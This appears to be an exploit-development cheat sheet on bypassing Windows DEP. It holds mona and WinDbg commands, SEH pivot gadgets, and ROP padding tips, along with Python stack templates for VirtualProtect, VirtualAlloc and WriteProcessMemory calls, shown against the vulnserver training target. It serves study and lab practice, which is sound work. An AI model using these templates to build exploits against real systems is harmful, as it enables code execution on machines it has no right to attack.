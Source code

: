 # DEP bypass
Some methods and hint to bypass DEP

1. Have you overwrite EIP? 

    ```py
    !py mona find -type instr -s "ret" -m MODULE.dll
    ```

2. Have you overwrite SEH?

   ```py
    add esp, offset + ret
    mov esp, register + ret
    xchg register,esp + ret
    call register (se il registro punta al nostro buffer)
    mov reg,[ebp+0c] + call reg (or other references to seh record)
    push reg + pop esp + ret (if you control ‘reg’)
    mov reg, dword ptr fs:[0] + … + ret  (set esp indirectly, via SEH record)
    ```

3. Search mona modules without rebase
  
    ```py
    !py mona modules -cm rebase=false
    ```
    
    
4. Always remember the padding

    ```py
    ecx = pack("<I",0x68b90948)  # XOR ECX,ECX # MOV EAX,ECX # POP EBX # POP ESI # RETN
    ecx += pack('<L',0x41414141) # padding for pop ebp
    ecx += pack('<L',0x41414141) # padding for pop esi
    ```
    
5. Same for RETN 0xN

    ```py
    rop += istruzione_retn # padding for retn 0x04
    rop += istruzione_retn # padding for retn 0x04
    ```

6. Search RW module
 
    ```py
    0:000> !dh module
    ......

    SECTION HEADER #6
    .idata name
        224 virtual size
        6000 virtual address
        400 size of raw data
        1600 file pointer to raw data
        0 file pointer to relocation table
        0 file pointer to line numbers
        0 number of relocations
        0 number of line numbers
    C0300040 flags
         Initialized Data
         4 byte align
         Read Write
    ............
    
    0:000>  ? modules + 224 + 6000 + 4
    Evaluate expression: 1649435176 = 62506228
  
    0:000> !address 62506228
    Usage:                  Image
    Base Address:           62506000
    End Address:            62507000
    Region Size:            00001000 (   4.000 kB)
    State:                  00001000          MEM_COMMIT
    Protect:                00000004          PAGE_READWRITE
    Type:                   01000000          MEM_IMAGE
    Allocation Base:        62500000
    Allocation Protect:     00000080          PAGE_EXECUTE_WRITECOPY
    Image Path:             C:\Users\User\Desktop\vulnserver\essfunc.dll
    Module Name:            essfunc
    Loaded Image Name:      
    Mapped Image Name:      
    More info:              lmv m essfunc
    More info:              !lmi essfunc
    More info:              ln 0x62506228
    More info:              !dh 0x62500000
    ```

7. Get IAT
    ```py
    0:009> !dh fsws -f
        0  DLL characteristics
        0 [       0] address [size] of Export Directory
    192B50 [     1CC] address [size] of Import Directory
    1AE000 [   133E0] address [size] of Resource Directory
        0 [       0] address [size] of Exception Directory
        0 [       0] address [size] of Security Directory
        0 [       0] address [size] of Base Relocation Directory
    166C40 [      1C] address [size] of Debug Directory
        0 [       0] address [size] of Description Directory
        0 [       0] address [size] of Special Directory
        0 [       0] address [size] of Thread Storage Directory
        0 [       0] address [size] of Load Configuration Directory
        0 [       0] address [size] of Bound Import Directory
    166000 [     C40] address [size] of Import Address Table Directory
        0 [       0] address [size] of Delay Import Directory
        0 [       0] address [size] of COR20 Header Directory
        0 [       0] address [size] of Reserved Directory

    0:009> dps fsws +0x166000 L100
    00566000  7606eb20 advapi32!RegCloseKeyStub
    00566004  760731e0 advapi32!RegEnumKeyA
    00566008  7606ea50 advapi32!RegQueryValueExAStub
    005662f4  7588b6b0 KERNEL32!GetPrivateProfileStringA
    005662f8  7588ae50 KERNEL32!WritePrivateProfileStringA
    005662fc  758887a0 KERNEL32!GetModuleFileNameAStub
    ......
    0:009> dps
    ......
    ```
    
## VirtualProtect Basic Template

```py
#GOALS - VirtualProtect
#EAX 90909090 => Nop                                              
#ECX <writeable pointer> => lpflOldProtect                                
#EDX 00000040 => flNewProtect                                   
#EBX 00000201 => dwSize   512                                      
#ESP ???????? => Leave as is                                 
#EBP ???????? => Call to ESP (jmp, call, push,..) -> !py mona jmp -r esp -cpb '\x00'              
#ESI ???????? => PTR to VirtualProtect - DWORD PTR of VirtualProtect 
#EDI RETN => ROP-Nop same as EIP  --> !py mona find -type instr -s "retn" -m module.dll -cpb "\x00"
```
## VirtualProtect Sniper Template

```py
# Calling VirtualProtect with parameters
payload += struct.pack('<L', 0x77325c90)    # Pointer to kernel32.VirtualProtect()
payload += struct.pack('<L', 0x11111111)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
payload += struct.pack('<L', 0x22222222)    # lpAddress
payload += struct.pack('<L', 0x33333333)    # size of shellcode (0x500 is ok)
payload += struct.pack('<L', 0x44444444)    # flNewProtect (0x40)
payload += struct.pack('<L', 0x62506d10)    # pOldProtect (any writeable address)
```

## VirtualAlloc Template
```py
#GOAL       VirtualAlloc                                         
# EAX 90909090 => Nop                                                
# ECX 00000040 => flProtect                                         
# EDX 00001000 => flAllocationType                                    
# EBX 00000001 => dwSize                                            
# ESP ???????? => Leave as is                                         
# EBP ???????? => Call to ESP (jmp, call, push,..)    !py mona jmp -r esp -cpb '\x00'                    
# ESI ???????? => PTR to VirtualAlloc - DWORD PTR of VirtualAlloc         
# EDI RETN => ROP-Nop same as EIP          !py mona find -type instr -s "retn" -m modulo.dll -cpb "\x00"   
```

## WriteProcessMemory Template
No encoding for this method! Create manually the shellcode
```py
# kernel32!WriteProcessMemory placeholder parameters
payload += struct.pack('<L', 0x7732ae50)    # Pointer to kernel32!WriteProcessMemory 
payload += struct.pack('<L', 0x61c72d10)    # RX from MODULE no aslr
payload += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
payload += struct.pack('<L', 0x61c72d10)    # lpBaseAddress = RX from MODULE no aslr
payload += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
payload += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
payload += struct.pack('<L', 0x1004dd10)    # lpNumberOfBytesWritten = writable location RW in MODULE no aslr
```
## Resources
1. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
2. https://vickieli.dev/binary%20exploitation/data-execution-prevention/
3. https://connormcgarr.github.io/ROP/
4. https://trailofbits.files.wordpress.com/2010/04/practical-rop.pdf
5. https://www.fuzzysecurity.com/tutorials/expDev/7.html
6. https://h0mbre.github.io/Creating_Win32_ROP_Chains
7. https://www.shogunlab.com/blog/2018/02/11/zdzg-windows-exploit-5.html
8. https://connormcgarr.github.io/ROP2/
